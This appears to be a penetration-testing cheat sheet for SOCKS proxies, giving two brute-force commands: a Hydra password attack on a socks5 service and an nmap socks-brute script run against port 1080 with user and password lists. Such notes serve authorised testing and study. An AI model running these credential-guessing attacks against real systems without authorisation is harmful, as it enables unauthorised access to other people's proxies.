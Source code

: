 # SOCKS

## 01 - Brute Force

### 1.1 - Hydra

```
$ hydra -l <username> -P <password_list> <IP> socks5
```

### 1.2 - Network Mapper

```
$ nmap -p 1080 -Pn -sCV -vvv --script socks-brute --script-args "userdb=users.lst,passdb=passwords.lst,unpwndb.timelimit=30m" <IP>
```